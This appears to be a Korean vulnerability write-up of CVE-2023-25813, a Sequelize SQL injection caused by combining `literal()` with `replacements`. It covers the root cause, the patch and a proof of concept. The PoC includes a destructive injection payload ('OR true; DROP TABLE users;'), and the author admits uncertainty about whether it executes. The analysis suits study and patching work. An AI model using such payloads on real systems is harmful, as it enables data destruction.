

# CVE-2023-25813

## CVE 정보
- **CVE 번호**: [CVE-2023-25813](https://nvd.nist.gov/vuln/detail/CVE-2023-25813)
- **설명**: Sequelize < 6.19.1 버전에서 `replacements` 옵션으로 전달된 입력값이 적절히 이스케이프되지 않아, 특정 쿼리 구성에 따라 SQL Injection이 발생할 수 있다.
- **취약 범위**: Sequelize 6.19.0 이하 버전
- **패치 버전**: 6.19.1
- **CVSS 점수**
  - **NIST 기준**: 9.8 (CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H)
  - **GitHub (CNA) 기준**: 10.0 (CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H)

## 재현 환경
- Node.js
- Sequelize v6.19.0
- MySQL

## Sequelize 개요
Sequelize는 Node.js에서 사용할 수 있는 ORM(Object-Relational Mapping) 라이브러리 중 하나이다. ORM은 객체와 관계형 데이터베이스 간의 상호 변환을 자동화하는 기술로, SQL 쿼리를 직접 작성하지 않고도 객체를 통해 데이터베이스 레코드를 조회, 생성, 수정, 삭제할 수 있다.
```jsx
// SELECT * FROM users WHERE id = 1;
const user = await User.findByPk(1);
```

## Replacements 사용 방법
`replacements`는 Sequelize에서 원시 SQL 쿼리 또는 ORM 메서드를 사용할 때, 사용자 입력값을 SQL에 안전하게 주입하기 위한 바인딩 메커니즘이다. 이는 SQL Injection을 방지하기 위한 주요 수단으로 사용된다.

```jsx
// 위치 기반 바인딩
await sequelize.query('SELECT * FROM projects WHERE status = ?', {
  replacements: ['active'],
});

// 키 기반 바인딩
await sequelize.query(
  'SELECT * FROM users WHERE name = :name AND age = :age',
  {
    replacements: {
      name: 'Alice',
      age: 25
    }
  }
);
```

## 취약점 개요
Sequelize는 사용자 입력값을 SQL에 안전하게 바인딩하기 위해 `replacements` 옵션을 제공한다.
그러나 Sequelize 6.19.1 미만 버전에서는 ORM 메서드 사용 시, `replacements`를 통해 바인딩했음에도 불구하고 **내부 SQL 생성 및 치환 순서의 문제**로 인해 SQL Injection이 발생할 수 있다.

## PoC
아래는 취약점이 발생하는 Sequelize 코드 예시이다. literal과 replacements를 조합하여 사용하는 상황에서 SQL Injection이 발생할 수 있다.
```jsx
User.findAll({
  where: or(
    literal('soundex("firstName") = soundex(:firstName)'),
    { lastName: lastName },
  ),
  replacements: { firstName },
})
```

공격자는 replacements에 다음과 같은 입력값을 주입함으로써 쿼리 구조가 무너지게 된다.
```jsx
{
  "firstName": "OR true; DROP TABLE users;",
  "lastName": ":firstName"
}
```

replacements 키(:firstName)를 값에도 다시 삽입하여, 바인딩 키를 한 번 더 넣어주는 구조이다.
```sql
SELECT * FROM users 
WHERE soundex("firstName") = soundex(:firstName) 
	OR "lastName" = ':firstName'
```

완성된 최종 쿼리는 아래와 같다. 하지만, 해당 쿼리는 구조상 명확하게 실행 여부를 판단하기 어려운 형태를 취하고 있으며 SQL 파서의 해석 방식 및 DB 설정에 따라 실행 결과가 달라질 수는 있을 듯 하다. 일부 환경에서는 단순한 구문 오류로 처리되지만, 설정에 따라서 의도하지 않은 SQL 명령어가 실행될 수 있는 위험한 구조이다.
```sql
SELECT * FROM users 
WHERE soundex("firstName") = soundex('OR true; DROP TABLE users;') 
	OR "lastName" = ''OR true; DROP TABLE users;''
```

만약, SQL 파서가 멀티쿼리를 허용하는 환경이라면, 바인딩 하나로 테이블을 삭제시킬 수 있다.


## 취약점 발생 원인
Sequelize는 literal 함수에 들어간 문자열을 신뢰하는 SQL 조각으로 간주하여 escape하지 않는다. 따라서, 해당 문자열은 SQL 쿼리에 그대로 삽입되며, 그 안에 :param이 남아있더라도 아무런 처리 없이 남겨진다.
아래와 같이, `replacements`는 SQL이 완전히 문자열로 조립된 이후 실행 직전에 남아 있는 `:param` 토큰을 찾아 치환하는 방식이기 때문에, 이미 구조가 확정된 SQL 내부에 사용자 입력이 그대로 삽입되며, 그로 인해 쿼리 전체의 구조가 무너지고 취약점이 발생하게 된다.
```jsx
// sequelize-6.19.0/src/sequelize.js

if (options.replacements) {
      if (Array.isArray(options.replacements)) {
        sql = Utils.format([sql].concat(options.replacements), this.options.dialect);
      } else {
        sql = Utils.formatNamedParameters(sql, options.replacements, this.options.dialect);
      }
    }
```

## 패치
injectReplacements를 정의하여 문법적으로 안전한 곳에서만 바인딩을 허용하도록 변경되었다.
```jsx
// sequelize-6.19.1/src/sequelize.js

if (options.replacements) {
  if (Array.isArray(options.replacements)) {
    sql = Utils.format([sql].concat(options.replacements), this.options.dialect);
  } else {
    sql = Utils.formatNamedParameters(sql, options.replacements, this.options.dialect);
  }
  sql = injectReplacements(sql, this.dialect, options.replacements);
}
```

## Reference
- [https://github.com/sequelize/sequelize/issues/9410](https://github.com/sequelize/sequelize/issues/9410)
- [https://github.com/advisories/GHSA-wrh9-cjv3-2hpw](https://github.com/advisories/GHSA-wrh9-cjv3-2hpw)
- [https://github.com/sequelize/sequelize/compare/v6.19.0...v6.19.1](https://github.com/sequelize/sequelize/compare/v6.19.0...v6.19.1)
